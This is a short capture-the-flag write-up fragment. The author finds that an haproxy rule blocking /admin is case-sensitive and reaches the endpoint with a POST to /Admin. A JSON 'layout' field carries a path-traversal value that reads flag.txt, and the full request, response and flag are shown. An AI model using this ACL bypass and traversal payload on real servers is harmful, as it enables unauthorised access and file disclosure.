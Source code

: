 ```plaintext
    server server1 localhost:9090 maxconn 32
```
So, looking closely at the code, I saw that haproxy was being used, and the proxy setting was set to deny requests to /admin. However, the “-i” option of the acl flag was not set, so the proxy was case-sensitive. So I bypassed it using this

```plaintext
POST /Admin HTTP/1.1
Host: web.chall.nitdgplug.org:80
Content-Length: 62
Content-Type: application/json
Connection: close

{
  "profile": {
    "layout": "./../views/flag.txt"
  }
}

HTTP/1.1 200 OK
x-powered-by: Express
content-type: text/html; charset=utf-8
content-length: 39
etag: W/"27-jRTUeDHSRSW+LShiq4v7jVRdiy8"
date: Sat, 05 Mar 2022 17:04:41 GMT
keep-alive: timeout=5
connection: close

GLUG{n0w_1_kn0w_wh0_4r3_y0u_1FOXABB6GM}
```

```plaintext
FLAG : GLUG{n0w_1_kn0w_wh0_4r3_y0u_1FOXABB6GM}
```

---
